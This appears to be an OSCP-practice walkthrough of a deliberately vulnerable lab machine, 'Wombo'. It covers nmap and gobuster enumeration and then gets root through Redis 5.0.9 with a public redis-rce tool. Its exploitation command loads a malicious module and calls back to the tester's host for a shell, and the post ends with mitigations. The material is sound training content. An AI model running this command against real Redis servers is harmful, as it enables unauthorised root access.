 ```yaml
---
title: Wombo
date: 2025-05-02
categories: [oscp, pg-practice]
tags: [oscp-preparation, walkthrough, redis, redis-rce] 
image: wombo.webp
media_subpath: /assets/img/posts/2025-05-02-wombo/
---
```


## Introduction

In this walkthrough, I explored an intentionally vulnerable PG Practice machine and identified several open ports: 22 (SSH), 80 (HTTP), 8080 (alternate HTTP), and 6379 (Redis). Upon enumerating the Redis service, I discovered it was running version 5.0.9. I searched for publicly available vulnerabilities for this version and found  remote code execution (RCE) exploits targeting 4.x and 5.x versions of Redis. Using the exploit, I was able to successfully gain root access on the target machine.

## Nmap

### TCP

Run a quick Nmap TCP scan:

```bash
sudo nmap -sV $IP --open 
```

![image.png](image.png)

### UDP

Check top 100 UDP ports:

```bash
sudo nmap -sU -F $IP
```

![image.png](image%201.png)

### Full Port Scan

```bash
sudo nmap -sV -sC -p- $IP -Pn -n -v --open
```

![image.png](image%202.png)

## Services

### Port 22

We usually skip SSH.

### Port 6379

Version - Redis key-value store 5.0.9

[Redis Pentesting Best Practices](https://secybr.com/posts/redis-pentesting-best-practices/)

Neither worked, but we can upload `.so` module to the target if we have that possibility. I am gonna write this to Loot.

## Web

### Port 80

![image.png](image%203.png)

![image.png](image%204.png)

```bash
searchsploit nginx 1.10
```

**No result.**

```bash
gobuster dir -u http://$IP/ -w /usr/share/seclists/Discovery/Web-Content/directory-list-2.3-medium.txt -t 42
```

**No result.**

### Port 8080

- **robots.txt**
    
    | http-robots.txt: 3 disallowed entries
    |_/admin/ /reset/ /compose
    
- **Gobuster**
    
    ![image.png](image%205.png)
    
    - **ping**
        
        Tried command injection  but it didn’t work
        
        ```bash
        sudo tcpdump -i tun0 icmp
        ```
        
        ![image.png](image%206.png)
        
        ![image.png](image%207.png)
        
    
    ---
    
    - **api**
        
        Nothing interesting
        
    
    ---
    
    - **uploads**
        
        **Nothing**
        
    
    I couldn’t find default credentials and nothing after registering.
    

## Loot

- NodeBB version
- Gobuster scan
- Upload module redis

## Exploitation

Actually I found this vulnerability long before analyzing port 8080 I just couldn’t make it because lport that was default was blocked. So I changed it to another one

[https://github.com/Ridter/redis-rce](https://github.com/Ridter/redis-rce)

```bash
python3 redis-rce.py -r 192.168.114.69 -L 192.168.45.155 --lport 80 -f ../RedisModules-ExecuteCommand/module.so
```

![image.png](image%208.png)

Now we received a shell as root!

![image.png](image%209.png)

## Mitigation

- **Update Redis:** Always keep Redis up-to-date. Vulnerabilities like this RCE are patched in later versions.
- **Access Control:** Bind Redis to `127.0.0.1` or use a firewall to restrict access only to trusted IP addresses.
- **Authentication:** Enable Redis password authentication with a strong, complex password using the `requirepass` directive.
- **Disable Dangerous Commands:** Use the `rename-command` feature to disable or obfuscate dangerous commands like `CONFIG`, `MODULE`, or `SLAVEOF`.
- **Run as Non-root:** Ensure Redis does not run as the root user. It should run under a dedicated, unprivileged user.
- **File Permissions:** Limit write permissions to Redis configuration and data directories to prevent unauthorized manipulation.
